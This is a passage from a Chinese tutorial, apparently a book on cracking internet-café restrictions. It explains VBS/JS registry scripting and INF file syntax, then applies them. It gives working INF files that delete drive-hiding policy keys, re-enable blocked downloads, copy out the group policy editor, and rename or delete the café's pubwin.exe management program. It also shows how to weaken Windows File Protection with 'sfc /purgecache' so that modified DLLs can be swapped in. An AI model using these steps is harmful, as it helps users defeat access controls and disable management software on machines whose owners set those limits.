WshShell.Run("gpedit.msc");
//JS_RUN_END
```

我们看到 VBS 和 JS 的确很像，尤其是定义对象的语句。如果你想运行非系统程序（那些系统程序只需指定名称即可，无须指定路径）就必须指定程序的路径。我们间接使用 CMD 运行带有路径的应用程序，只要把前面的 `WshShell.Run("gpedit.msc")` 修改为 `WshShell.Run("cmd /k E:\\nohack.exe")`，就可以运行 E 盘下的 nohack.exe 了，你会用了吧！

### 3.3.2、使用 VBS 和 JS 脚本操作注册表

对注册表的操作主要有三种：读取、新建和删除，它们分别对应 VBS 和 JS 中的 `RegRead`、`RegWrite`、`RegDelete` 三个方法，对于 JS 脚本千万要注意大小写。来看如何使用 VBS 和 JS 操作注册表吧！

- a、VBS 脚本读注册表键值

```vb
'VBS_REGREAD_START
Dim WshShell, reader
Set WshShell = WScript.CreateObject("WScript.Shell")
reader = WshShell.RegRead("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page")
WshShell.Popup(reader)
'VBS_REGREAD_END
```


使用 RegRead 方法只能读取键值，并且路径需要用双引号和小括号括住。这里读取的是主页的地址，把以上代码保存为一个 vbs 文件后直接双击执行，弹出的消息框中将显示主页地址，如图 3-3-1。

- b、VBS 脚本写注册表

```vb
'VBS_REGWRITE_START
Dim WshShell
Set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.RegWrite "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoDrive", 1, "REG_DWORD"
WshShell.RegWrite "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Forever\\", 114
'VBS_REGWRITE_END
```

RegWrite 方法操作注册表路径只用双引号就够了。要建立项，在路径最后要加反斜线（`\`），否则建立的是键。注意建立项的时候一定要给项下的默认字符串赋初值，否则不会建立成功。键后面紧跟键的值、键的类型，它们使用逗号分隔。其他的几种键类型表示为：

- REG_EXPAND_SZ：可扩展字符串
- REG_MULTI_SZ：多字符串
- REG_SZ：字符串
- REG_BINARY：二进制值

### c、VBS 脚本删除注册表项或键值

```vb
'VBS_REGDELETE_START
Dim WshShell
Set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.RegDelete "HKLM\Software\Hintsoft\"  ' 删除 HKLM\Software 下的 Hintsoft 项（Pubwin 的注册表项）
WshShell.RegDelete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoViewOnDrive"  ' 删除名为 NoViewOnDrive 的键
'VBS_REGDELETE_END
```

### d、对应的 JS 脚本代码

```js
//JS_REGREAD_START
var WshShell = WScript.CreateObject("WScript.Shell");
var Reader = WshShell.RegRead("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page");
WshShell.Popup(Reader);
//JS_REGREAD_END

//JS_REGWRITE_START
var WshShell = WScript.CreateObject("WScript.Shell");
WshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\Zones\\3\\1803", 0, "REG_DWORD");
//JS_REGWRITE_END

//JS_REGDELETE_START
var WshShell = WScript.CreateObject("WScript.Shell");
WshShell.RegDelete("HKLM\\Software\\HINTSOFT\\");
WshShell.RegDelete("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoViewOnDrive");
//JS_REGDELETE_END
```

大家看到了，除了有些方法名称和 VBS 不同外，大体上都是相同的。不过 JS 对大小写敏感，有时候写起来很不爽，还是建议使用 VBS 脚本，更不容易错。

JS 脚本通常被用在网页中，这大家都是知道的。所以除了直接双击运行 JS 脚本外，我们还可以利用网页运行脚本。下面给出一个读主页的 JS 脚本网页代码：

```html
<script type="text/javascript">
var wsh = new ActiveXObject("WScript.Shell");
var reg = wsh.RegRead("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page");
alert(reg);
</script>
```

把上面的代码保存为一个 .HTM 文件，然后双击运行该文件。IE6 默认对 JS 脚本的运行会阻止，如图 3-3-2。

点击“确定”，然后在那个黄色的条状提示上点击并选择“允许阻止的内容”，再通过两个提示就可以得到一个弹出式消息框，如图 3-3-3。

当然也可以使用前面用到的其他语句写注册表了。一些朋友的注册表无故被修改，很多时候是因为访问了一些带有 JS 脚本的网页，这下明白了吧！文中涉及到的所有 JS/VBS 文件代码光盘中有收录。


## 3.4、使用 inf 文件

INF 是 Device Information File 的英文缩写，是微软为硬件设备制造商发布其驱动程序推出的一种文件格式。INF 文件中包含硬件设备的信息或脚本以控制硬件操作。我们在安装一个新硬件的时候，Windows 正是利用 inf 文件，才得以顺利找到硬件的驱动程序并正确安装。我们执行的大部分和硬件有关的操作都离不开 inf 文件。

可以看到 inf 文件对系统来说是很重要的。inf 文件是文本格式的，我们可以使用记事本打开它，这更有利于我们学习 inf 文件的编写。当然我们的目的不是为驱动程序编写 inf 文件，而是要把它运用到网吧破解上，强权下只需运用 inf 文件了！inf 文件的执行和其他文件的执行方式有些不同，大部分应用程序通过双击打开执行，而对于 inf 文件来说那意味着编辑。执行 inf 文件需要使用快捷菜单（右键菜单），然后选择“安装”命令，真是和硬件接轨啊！除了 GUI 下的执行外，我们还可以使用命令执行一个 inf 文件，命令如下：

```cmd
rundll32.exe setupapi,InstallHinfSection DefaultInstall 132 *.inf
```

这是调用 Rundll32.exe 执行 setupapi.dll 文件中的 InstallHinfSection 命令来执行 inf 文件的。这个我们不需要明白原理，你只要知道如何使用命令运行 inf 文件就可以了。下面让我们开始愉快的 inf 文件学习旅程吧！

### 3.4.1、inf 文件的语法和格式设置规则

在书写 inf 文件之前，不了解 inf 文件的语法和格式设置会给我们的编写工作带来不必要的麻烦。

- **a、节：** 节可以按任何顺序出现在 inf 文件中，但是为了提高可读性，编写的时候我们还是会遵照一定的顺序。
- **b、大小写：** inf 文件是不区分大小写的文件，比如写 Version、version、VERSION 都是一样的。
- **c、注释：** inf 文件以“;”号作为注释行的开始，“;”号后面同一行的任何字符都会被忽略执行，除非遇到了由引号或者百分比号封闭，比如 `";version"` 或 `%Ver;sion%`。
- **d、分隔符：** inf 文件使用逗号（`,`）将节中参数各项的值分开，有的参数若为空可以不写，也就是说有时候可以不使用逗号。inf 文件使用下划线（`_`）表示字符串关键字名称中的空格。
- **e、行继续符：** inf 文件使用反斜杠（`\`）作为行继续符，如果我们书写一个语句过长，在需要换行的地方插入一个反斜杠，就可以在下一行继续书写该语句了。
- **f、引号：** inf 文件中引号同样非常有用。路径包含空格时需要双引号；有时长语句也可用引号括起以避免换行误判；引号还可“稀释”特殊符号（如分号、行继续符）。例如保留 `"FORNEVER"` 可写为 `"""FORNEVER"""`。

注意：节中的每项以换行符或回车符结束，因此在编写 inf 文件时不能任意插入换行符或回车符，这可能使解释器把项或节的结束解释到错误位置。书写语句时（除注释外）尽量使用英文标点。inf 文件有时按自上到下顺序执行，前面语句错误可能导致后续语句不执行，也可能后面错误影响前面语句，且系统不一定给出错误提示。

### 3.4.2、INF 文件的节

每个 INF 文件必须包含一个 `[Version]` 的头，类似这样以 `[]` 括住的字符串叫做节名。注意这个头的名称在一个文件中一定要是唯一的，并且对于 Windows NT 系统，节名不能超过 255 个字节。节名下有格式固定的语句，这些语句和节名一起组成节，INF 文件就是由若干个节组成的。下面我们逐一讲解将要在文中出现的节的作用和用法，让我们先从 `[Version]` 开始。

- **a、[Version]**
  - 必选项，而且必须出现在 inf 文件的开头。本节指定要编写的 inf 文件对哪种操作系统有效，同时在该节中还可以指定创建这个 inf 文件的创建者名称。
  - **Signature：** 同样是必选项，指定该 inf 文件对哪个操作系统有效。对于 Windows NT 系列（Windows NT/2000/XP/2003）要用 `Windows NT`，而对于 Win9x 则要用 `Chicago`。
  - **Provider：** 指定该 inf 文件的创建者，通常可选。

```ini
[Version]
Signature = "$Windows NT$"
Provider = Forever
```

大家注意了，操作系统的类型是需要使用 `$` 符号封闭起来的，并且等号左右两边有无空格都无所谓。

- **b、[DefaultInstall]**
  - 必选项，它是完成 inf 文件功能的主体节。`[DefaultInstall]` 首先要由用户定义一个子节，节的类型根据功能而定，节的名称可以自定义。我们将要用到的功能有 **CopyFiles**、**AddReg** 和 **DelReg**，即复制文件、添加注册表项和删除注册表项。让我们逐一来学习这些功能的实现。
  - b-1、复制文件

复制文件使用到参数 `CopyFiles`，我们首先要在 `[DefaultInstall]` 节名下为这个参数定义一个名称，使用等号赋值，赋值成功后就可以使用该名称作为子节的节名了。INF 文件中使用这个子节指定需要复制的文件列表以及复制期间的一些操作，其书写格式如下：

```ini
dest_filename,source_filename,,flags
```

- **dest_filename**：必选，指定要复制到目标目录的文件名；
- **source_filename**：可选，代表被复制的文件名，这个文件和包含它的 INF 文件在同一目录下；如果不写文件名，INF 文件解释器将使用 `dest_filename` 指定的文件名作为源文件名；
- **flags**：直译为标记，同样可选。它用于指定在文件复制过程中执行某个操作的数字值，这些值大部分是控制是否使用源文件覆盖已有的同名目标文件。

| 标志 | 值 | 说明 |
|---|---|---|
| COPYFLG_WARN_IF_SKIP | 0x00000001 | 用户尝试跳过发生错误后产生的文件时警告他。 |
| COPYFLG_NOSKIP | 0x00000002 | 不允许用户跳过复制文件的操作。 |
| COPYFLG_NO_OVERWRITE | 0x00000010 | 不改写目标目录中的现有文件。 |
| COPYFLG_REPLACEONLY | 0x00000400 | 仅当目标目录中已存在同名文件时才复制。 |
| CE_COPYFLG_NO_DATE_DIALOG | 0x20000000 | 如果目标文件比源文件新，请勿复制此文件。 |
| CE_COPYFLG_NODATECHECK | 0x40000000 | 改写目标文件时忽略该检查。 |
| CE_COPYFLG_SHARED | 0x80000000 | 考虑共享 DLL 时，创建一个引用。 |

我们引用的是值的十进制值，而表中列出的是十六进制值。官方只列出了这些值，实际上可以使用的值不只这些……如果不写 `flags` 项，则系统默认为 0，即不执行任何操作。说了这么多，我们来看一个实例吧！

```ini
[DefaultInstall]
CopyFiles = copy
[copy]
fox.txt,fornever.bat,,0
```

## b-2、操作注册表

`[DefaultInstall]` 下的操作注册表分为添加和删除注册表项或键值。添加和删除注册表项或键值的关键字分别为 `AddReg`、`DelReg`。子节下它们的书写格式都相同，语句如下：

```ini
reg_root_string,subkey,value_name,flags,value
```

`reg_root_string`：必选，它代表要操作的注册表根键名称，这个名称是缩写的，它们的缩写如下：

| 缩写 | 全称 |
|---|---|
| HKCR | HKEY_CLASSES_ROOT |
| HKCU | HKEY_CURRENT_USER |
| HKLM | HKEY_LOCAL_MACHINE |
| HKU | HKEY_USERS |

| 标志 | 值 | 数据类型说明 |
|---|---|---|
| FLG_ADDREG_NOCLOBBER | 0x00000002 | 如果注册表项存在，请不要改写它。 |
| FLG_ADDREG_TYPE_SZ | 0x00000000 | REG_SZ 字符串类型。 |
| FLG_ADDREG_TYPE_MULTI_SZ | 0x00010000 | REG_MULTI_SZ 多字符串类型。 |
| FLG_ADDREG_TYPE_BINARY | 0x00000001 | REG_BINARY 二进制类型。 |
| FLG_ADDREG_TYPE_DWORD | 0x00010001 | REG_DWORD 32 位整数类型。 |

而 `HKEY_CURRENT_CONFIG` 根键是不可以用 INF 文件操作的。`subkey` 为必选项，用于指定根键下要操作的注册表路径；`value_name` 可选；`flags` 可选，用于指定键值的数据类型；`value` 可选，用于指定键值数据，且应与键类型匹配。

除了可以添加注册表键值外，还可以直接添加一个项。注意使用 INF 文件添加项或键值时，如果指定的对象已经存在则会更新它。下面给出一个完整的 INF 文件编辑注册表实例。

```ini
[Version]
Signature = $Windows NT$
Provider = Fornever
[DefaultInstall]
AddReg = add
[add]
HKLM,Software\Fornever,test,0x00000000,"This is an example about inf"
HKLM,Software\Fornever,example,0x00010001,21
HKLM,Software\Fornever,nohack
HKLM,Software\Fox
```

本实例在 `HKLM\Software\Fornever` 下新建名称为 test 的字符串并赋值 “This is an example about inf”；新建名称为 example 的 DWORD 值并赋值为十进制 21；新建名称为 nohack 的字符串。这个例子可以看出 INF 文件默认建立的数值类型为字符串；因为 Fornever 项是不存在的，所以实际上 Fornever 也是新建的。`HKLM,Software\Fox` 是在 `HKLM\Software` 下新建 Fox 项。


而使用删除注册表项或键，只需要将 `AddReg=add` 改为 `DelReg=add` 即可，语法同 AddReg。需要注意的是，如果子节中第一行语句有错误的话，后面的语句将不能执行，而且系统也不会给你任何错误提示。

除了上面三个我们常用到的功能，在 `[DefaultInstall]` 节中还可以定义的操作有：

- LogConfig：Log 日志文件配置
- RenFiles：文件改名
- DelFiles：删除文件
- UpdateInis：更新 INI
- UpdateIniFields：更新 INI 字段
- Ini2Reg：INI 文件转换为 Reg 文件

## c. [DestinationDirs]

在复制文件时必选。从节名我们也可以大概猜到这个节的功能，即指定复制文件的目标目录。前面的复制文件例子只指定了源文件路径和文件名，而目标文件仅指定了文件名，对于复制到哪个目录没有说明，这个功能就是在该节中完成的。

还记得上面定义的子节名称吗——copy，这里要用到它，写法如下：

```ini
[DestinationDirs]
Copy = 0,E:\
```

`Copy` 为你在 `[DefaultInstall]` 中定义的复制文件参数名称，然后使用等号赋值路径；如果路径不存在则逐级新建目录。注意要在路径前加一个 `0`，使用逗号分隔；这是固定语法。而如果逗号后面不是一个路径名，则解释器将默认为这是一个目录名，并在当前目录下新建这个目录，把文件复制到里面。

```ini
[Version]
Signature = "$Windows NT$"
Provider = Fornever
[DestinationDirs]
Copy = 0,E:\
[DefaultInstall]
CopyFiles = copy
[copy]
fox.txt,fornever.bat,,0
fox.gif,fornever.bmp,,0
```

| 标号 | 目录名称 | 路径 |
|---|---|---|
| 01 | 源目录（即 INF 文件所在目录） |  |
| 10 和 25 | Windows 系统目录 | C:\WINDOWS |
| 11 | System32 目录 | C:\WINDOWS\system32 |
| 12 | 驱动目录 | C:\WINDOWS\system32\drivers |
| 17 | INF 文件目录（隐藏） | C:\WINDOWS\inf |
| 18 | 帮助文件目录 | C:\WINDOWS\help |
| 20 | 字体目录 | C:\WINDOWS\Fonts |
| 24 |  | C:\WINDOWS\system32\viewers |
| 50 | System 目录 | C:\WINDOWS\system |
| 51 | Spool 目录 | C:\WINDOWS\system32\spool |
| 53 | 用户配置目录 | C:\Documents and Settings\username |

这个例子将当前目录下的 fornever.bat 和 fornever.bmp 复制到 E 盘下并重命名为 fox.txt 和 fox.gif。我们可以看到使用 INF 文件可以同时复制两个或更多文件。在 `[DestinationDirs]` 节中系统定义了很多常用路径，使用时只要指定相应数字即可。

```ini
[DestinationDirs]
copy=01 ; 即把目标目录设置为当前目录
```

## d. [Strings]

可选项，但是它可以简化 INF 文件的编写，因此也常被用到。[Strings] 被用于定义一个或者多个字符串关键字（它们通常都很长）的内容，然后在其他节中就可以使用在这里定义的关键字替换那些复杂的字符串。它的参数只有一个。

```ini
[Strings]
string_key = value
```

`string_key` 是由用户自己定义的，为了易用它常常被定义为有一定含义的名称。`value` 是你想要替换的复杂冗长字符串，在引用定义时要使用 `%` 符号，比如 `%Reg_Path%`。让我们来看例子。

```ini
[Strings]
REG_DWORD = 0x00010001
systemroot = c:\windows
```

这里定义两个有意义的名称，分别代表在操作注册表时使用的数据类型 DWORD 和一个路径。这样在其他 `[DefaultInstall]` 节中书写语句时就可以不必带着很长的路径或者写难以记忆的数据类型值了，而是使用 `[Strings]` 下定义的有意义字符串替换它们。

## 3.4.3、INF 文件编写实例

我们已经讲了这么多，下面我写一个复制文件和添加注册表值的 INF 文件，它将用到上面我们所讲到的所有节。希望通过这个实例大家可以掌握 INF 写法。

```ini
[Version]
Signature = $Windows NT$
Provider = Fornever
[Strings]
Reg.Dword = 0x00010001
Reg.Sz = 0x00000000
Path = c:\Windows\System32\Fornever
[DestinationDirs]
Copy = 0,%Path% ; 引用[Strings]中定义的路径
[DefaultInstall]
CopyFiles = copy
AddReg = add
DelReg = del
[copy]
Fox.txt,Fornever.bat,,0
Fox.gif,Fornever.bmp,,0
[add]
HKCU,Software\Fornever,Fornever,%Reg.Dword%,114 ; 引用[Strings]中定义的DWORD值
HKCU,Software\Fornever,Fox,%Reg.Sz%,Fox ; 引用[Strings]中定义的字符串值
HKCU,Software\Linkin Park
[del]
HKCU,Software\Microsoft\Windows\CurrentVersion\Policies\Explorer,NoDriveTypeAutoRun
```

这个 INF 文件一共完成了三个功能：在 `HKEY_CURRENT_USER\Software` 下新建项 Fornever 和 Linkin Park，并在 Fornever 项下建立名称为 Fornever、值为 114 的 DWORD 值和名称和值为 Fox 的字符串值；删除 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 中名称为 NoDriveTypeAutoRun 的键；同时把当前目录的 Fornever.bat 和 Fornever.bmp 复制到 `C:\Windows\System32\Fornever` 目录下。

## 3.4.4、使用 INF 文件破解网吧限制

### a. 解除禁止下载和本地硬盘的限制

学了 N 多理论知识，该练练手了。如果无法访问注册表，我们可以使用 INF 文件写注册表的某个键破解网吧限制——或是覆盖原值或删除那个键（项）。让我们先以解除禁止下载和访问硬盘限制为例。

从第一章中我们可以获知控制下载和本地硬盘访问的键为：  
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下的 DWORD 值 1803，其中 0 代表允许下载，3 代表禁止下载；  
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下的 NoDrives 和 NoViewOnDrive，前者控制隐藏硬盘，后者控制禁止访问硬盘。

这里我们使用两种方法破解这三个限制，来看这个 INF 文件：

```ini
[Version]
Signature = $Windows NT$
Provider = Fornever
[Strings]
Reg.Dword = 0x00010001
[DefaultInstall]
AddReg = add
DelReg = del
[add]
HKCU,Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3,1803,%Reg.Dword%,0
[del]
HKCU,Software\Microsoft\Windows\CurrentVersion\Policies\Explorer,NoDrives
HKCU,Software\Microsoft\Windows\CurrentVersion\Policies\Explorer,NoViewOnDrive
```

把上面这些代码保存为 `.inf` 文件，然后右键点击，选择安装，它就会把禁止下载改为允许下载，同时删除掉控制隐藏硬盘和禁止访问硬盘的两个键，让我们可以顺利出入任意硬盘。

### b、利用 INF 执行系统程序

除了使用操作注册表的功能外，我们还可以使用复制文件的功能运行一些我们想要的系统程序，比如组策略编辑器。其实这是我无意中发现的方法，在学习 INF 文件的过程中，一个一个的错误让我获得了更多的东西。我们假设这样的环境：

禁止访问注册表编辑器、隐藏和禁止访问本地硬盘、无法使用运行或命令提示符直接打开组策略编辑器，其他限制默认。我们要运行 `gpedit.msc`，无法进入硬盘去打开，亦无法直接运行，这时候我们就可以利用 INF 文件把 `gpedit.msc` 复制到可以访问的目录，然后打开。过程就是这样，让我们来看如何写这个 INF 文件。

```ini
[Version]
Signature="$Windows NT$"
Provider=Fornever
[DestinationDirs]
copy=0,fornever
[DefaultInstall]
CopyFiles=copy
[copy]
gpedit.msc
```


隐藏了所有硬盘后，只有桌面可以访问了。我们可以使用前面讲过的利用 IE 保存一个文本格式文件的方法，把上面的代码保存为一个 INF 文件到桌面，然后安装这个 INF 文件，就会出现“所需文件”的对话框，告诉我们桌面没有 `gpedit.msc` 这个文件，如图 3-4-5。

嘿嘿，当然没有了！我们是故意制造错误，因为我们无法把这个 INF 文件写到 `gpedit.msc` 所在目录，于是在 copy 节下直接写你想得到的系统程序名称，等系统报错。这时候在对话框的文件复制来源中输入 `C:\Windows\System32`，然后点“确定”，就会在桌面的 Fornever 目录里获得一个组策略编辑器！感觉这是一个很不错的破解方法，这里推荐给大家尝试。

### c、利用 INF 文件破解网吧管理软件

对付一些网吧管理软件，我们有时候需要对它的主程序进行删除，或者改名以达到替换文件或使管理软件不再启动的目的，而通常郁闷的是我们无法顺利进入网吧管理软件所在的驱动器。这时候就可以使用 INF 文件直接删除或者重命名任意目录的任意文件，INF 文件的这个特性用在这再合适不过了，当然前提是你要有足够的权限。

比如我们要改名或删除的程序为 `C:\Program Files\Hintsoft\Pubsrv\pubwin.exe`（当然要做到删除必须先结束它的进程，重命名却是可以成功的），这样编写这个 INF 文件，看代码：

```ini
[Version]
Signature="$Windows NT$"
Provider=Fornever
[DestinationDirs]
Ren=0,C:\Program Files\Hintsoft\Pubsrv
[DefaultInstall]
RenFiles=ren
[ren]
fornever.exe,pubwin.exe
```


把上面的代码保存为一个 `.inf` 文件，然后安装就会把 `pubwin.exe` 改名为 `fornever.exe`。如果你想删除 `pubwin.exe` 的话，把 `RenFiles` 改为 `DelFiles` 就可以了，这样源文件名也就不用写了。

到这里 INF 文件的相关知识就讲解完了，其实 INF 文件还有其他很实用的功能，大家自己研究吧！后面还会有 `Autorun.inf` 这个文件的详细讲解，有兴趣的朋友千万不要错过哦！文中涉及到的所有 INF 文件代码都已经收入光盘。

## 3.5、DLL 文件简述及修改

### 3.5.1、DLL 文件简介

前面说过 DLL 是动态链接库的英文缩写，系统中的 `.dll` 文件为其他程序提供一些函数来完成一定功能。这个函数和我们数学中的函数当然不一样，它们直观地看就是一些语句，或者说得更好理解一些，函数就是一种方法，是可以完成特定功能的语句（在 C 语言中叫做函数，而在 Java 中就叫做方法）。在 Windows 环境下它们就是 API 了，这些都涉及到了程序编写，因此不再多说。

通常我们在任务管理器中看到的进程都是以 `.exe` 为后缀的，根本没有 `.dll` 文件的影子。其实不是这样的，就系统进程和大多数用户进程而言，一个 EXE 程序的运行都需要若干个 DLL 文件的支持，只不过它们被安排在后台了。使用冰刃我们可以查看一个进程所加载的 DLL 文件都有哪些，如图 3-5-1。

这是 IE 所加载的 DLL 文件信息，可以看到 IE 加载了很多 DLL 文件。其实并不是所有 DLL 文件的功能 IE 都能用到，很多情...况下它只使用其中的某几个功能。而相反，一个 DLL 文件也可以同时被数个应用程序加载，如图 3-5-2。

DLL 文件不光提供方法供应用程序使用，它们还提供资源给应用程序。应用程序和网页文件不同，后者把网页中的各种元素保存在一个文件夹中调用，而前者的资源来自 DLL 文件。

##### 什么是资源

对于一个应用程序来说，资源就是程序在执行过程中显示的图片、图标、声音、菜单和对话框等。其实这个名词经常出现在软件的加密解密领域。通常我们在应用程序中点击一个按钮后会弹出对话框，这个对话框无进程，也就是说它不是一个独立的程序，而是某个程序调用的 DLL 文件的一部分。在程序中显示的图片、播放的声音同样如此，所有这些都被封装进了 .dll 文件。


## 3.5.2 DLL文件的修改

有时候不走运到了一家 BT 的网吧，呵呵，什么都不让动，哪里都有限制。前一阵看过一篇文章，作者的一张图片描述的是一个本地连接的属性被修改后的惨象，比如这样，这是我自己做的一个图片，但是大致意思就是这样了，如图 3-5-3。

大家看到原来的“安装”和“属性”按钮都被替换成了其它内容，连接使用的项目中本来应该有 TCP/IP 协议等内容的，可是却一片空白。这样的话我们就无法进入 TCP/IP 协议的属性去达到修改 IP 的目的了。

常见的选项卡被修改的情况还出现在下载和“Internet 选项”中。有时候网吧没有禁止下载，点击网页中的下载后可以出现“文件下载”的对话框，但是其中的按钮不是变灰不可用就是点击了“确定”按钮无响应，根本没有下载。而“Internet 选项”的“安全”选项卡中的“自定义级别”和“默认级别”往往同时是灰的……还有更多不幸的朋友遇到更多类似这样的情况——应用程序的资源异常！这些都是通过修改对应程序的 DLL 文件实现的。

这里我们将学习 DLL 文件修改的相关内容，知道了修改方法，解除的时候只要逆向做一次就可以了。其实在网吧中直接修改 DLL 文件并不是最理想的方法，重点是让大家明白这些限制的原理，学会修改方法。我们将使用 Resource Hacker 这款资源修改工具修改一些 DLL 文件达到一些效果。


这里将以“文件下载”的对话框为例讲解修改方法，修改目的是使“保存”和“打开”按钮无效以及让这些按钮变灰。IE 执行的时候需要加载一个 DLL 文件：`%systemroot%\system32` 下的 shdoclc.dll，这个文件提供给 IE 很多菜单、窗口和对话框资源。把这个文件复制到一个目录中，然后用 Resource Hacker 打开这个文件并定位到“对话框”→“4416”→“2052”，如图 3-5-4。


大家注意“对话框”下的“文件下载”，熟悉吧！对，文件下载的对话框资源就保存在 shdoclc.dll 文件中。Resource Hacker 的一个好处在于我们可以直接在对话框的范例上修改，而不用在脚本上修改，这样降低了难度。下面我们来编辑“打开”按钮。在“文件下载”的“打开”按钮上点击右键并选择“编辑控件”，如图 3-5-5。在控件编辑器中我们可以看到“打开”按钮的坐标位置、类型、ID 和风格等。

对修改来说重点是后两者，它们可以改变这个对象（这里就是“打开”按钮）的所有属性。这里我们来让“打开”按钮失效，我们看到它的 ID 是 4419，我们要让它功能变成取消，因此用“取消”按钮的 ID 替换这里的 ID 即可。就是这样，首先我们查看“取消”按钮的 ID 为 2，然后把“打开”的 ID 修改为 2 并保存退出，如图 3-5-7。


这时候你下载并保存文件的时候，点击“打开”就会退出“文件下载”的对话框，因为这时候“打开”等于“取消”了！同时，很有趣吧，你还可以查看其它按钮的 ID 然后尝试修改，很有意思的！同样的方法你可以修改“保存”按钮。

下面我们来让“打开”按钮变灰使其不可用。同样编辑“打开”，在左下角的框中找到 **WS_DISABLED**，把进度条拉到最后就可以看到了，如图 3-5-8。选中的项目将以黄色高亮显示，这里我已经选中了，默认情况下该项是不选的。这个项指定对象是否可用，选中就是不可用了。点击右上角的“确定”，这时候我们已经看到“打开”按钮已经变灰不可用了，如图 3-5-9。


然后点击“编译脚本”保存所做的修改，继续保存文件退出，资源修改完毕。刚才我们修改的 WS_DISABLED 是对话框对象的风格之一（风格是 Resource Hacker 汉化后的叫法，我更偏向于属性这种说法），我们还可以看到其它风格，比如这个对象是否具有进度条，或者是否是一个单选项或复选项，这些都由大家自己去研究了，这就是所谓的授之于渔而不是授之于鱼吧！

文件修改好了，现在摆在我们面前的问题是如何替换原文件，因为 shdoclc.dll 文件是一直被加载的，所以在 Win 下无法直接替换。我们需要重新启动并进入到命令行的状态替换文件，所以说在网吧实现起来比较困难。对于一般的资源修改的情况，如果是按钮变灰无法使用了（还好大部分是这种情况），我们可以用 Windows 按钮突破专家很简单地激活变灰的按钮。

这里用 shdoclc.dll 文件为例子简单讲解了 DLL 文件的修改，其实有时候网吧的这种限制不仅仅是修改对话框就可以突破的，有时候我们还需要修改菜单或字符串，对于这两者可就要直接修改脚本了。Resource Hacker 在修改一些 DLL 文件的时候显得力不从心，经常出错，因此我又提供了几款资源修改工具给大家尝试，它们都是大同小异，相信大家都会很快上手的。另外我提供一些自己找的比较有用的 DLL 文件以及相关菜单和对话框信息，希望对大家有用！

| 项目 | 对象类型 | 编号/说明 |
|---|---|---|
| (1) shdoclc.dll | 对话框 | 4416 文件下载；4352 下载完毕；4464 IE“文件”菜单“打开”命令；21400 将网页添加到收藏夹 |
|  | 字符串 | 58、920、921、922、85、1030、1031 等（如“从当前位置打开文件”“将文件存入磁盘”“正在下载文件”） |
|  | 菜单 | 258 “文件”菜单 |
| (2) browselc.dll | 对话框 | 263、266、287 Internet 选项和文件夹选项 |
| (3) netcfgx.dll | 对话框 | 2523 IP 地址/网关/子网掩码/DNS 服务器地址修改 |
| (4) netshell.dll | 对话框 | 1801、1802、1805、1806、15999（网络连接常规/支持选项卡/属性） |
| (5) ieaksie.dll | 对话框 | 1091 自定义级别和默认级别；1095 自定义级别中的“安全级别”设置 |
| (6) filemgmt.dll（服务与文件共享调用） | 对话框 | 211 服务的“常规”选项卡 |

| 模块 | 对象 | 对话框/说明 |
|---|---|---|
| (7) msietfp.dll | 对话框 | 40：用户登录对话框 |
| (8) shell32.dll（Windows 的主要资源 DLL 文件） | 对话框 | 1003：运行；1011：确认文件删除；1022：确认文件夹删除；1013：确认删除多个文件；1014：确认文件替换；1015：确认文件夹替换；1040：快捷方式的快捷方式对话框；1041：快捷方式的常规对话框；1063：打开方式；2052：注销 Windows；29952/29953/29960：属性页与文件夹选项相关 |
| (9) mmcndmgr.dll（MMC 的外壳程序） | 对话框 | 159：添加独立管理单元；1055：独立 |
| (10) taskmgr.dll（任务管理器调用） | 对话框 | 110：进程选项卡；112：应用程序选项卡 |
| (11) comdlg.dll | 对话框 | 1547、1552：文件的标准打开对话框 |
| (12) explorer.exe | 对话框 | 6：任务栏属性的任务栏选项卡；9：自定义经典开始菜单；205：任务栏属性的开始菜单选项卡；1036：自定义菜单的高级选项卡 |
| (13) regedit.exe | 对话框 | 102：编辑字符串；103：编辑二进制值；110：导入注册表文件；111：编辑 DWORD 值；114：编辑多字符串 |

## 3.5.3 DLL文件相关

### a、Windows 文件保护

有很多文件可以直接在图形界面下替换成功（或者直接修改吧），但你会发现确实文件修改成功了，替换后对话框却没有修改后的效果。这是怎么回事呢？从 Windows 2000 开始微软引入了“Windows 文件保护”功能（Windows File Protection，WFP）。WFP 在后台自动运行，可以防止重要系统文件被替换，大大提高系统稳定性。


当受 WFP 保护的系统文件被替换时，系统会从受保护文件的备份目录复制文件恢复，备份目录位于 `%systemroot%\system32\dllcache`。若无法从 DLLCACHE 恢复，系统会检查安装光盘并尝试复制相应文件；若仍失败，则会给出提示（如图 3-5-10）。


要成功替换修改后的 DLL 文件，需要关闭或削弱 WFP。一个方法是限制 DLLCACHE 目录（DLL 缓存）大小，即限制 Windows 文件保护缓存占用的磁盘空间。可在组策略中设置：`计算机管理` → `管理模板` → `系统` → `Windows 文件保护`，进入“限制 Windows 文件保护缓存大小”的属性（如图 3-5-11）。将“缓存大小”设为 0MB，可使 DLL 缓存基本失效，从而便于替换修改后的文件。


另外还可以清空 DLL 缓存。Windows 提供系统文件检查器（System File Checker，SFC），可进行自定义文件保护操作。它是命令行程序，在命令提示符中输入 `sfc /?` 可查看帮助（如图 3-5-12）。其中一个常用选项 `/PURGECACHE` 可清除文件缓存。

```bash
sfc /?
sfc /SCANNOW
sfc /SCANONCE
sfc /SCANBOOT
sfc /REVERT
sfc /PURGECACHE
sfc /CACHESIZE=x
```

输入 `sfc /purgecache` 并回车就可以清空 DLL 缓存了。

### b、DLL文件的修复与注册

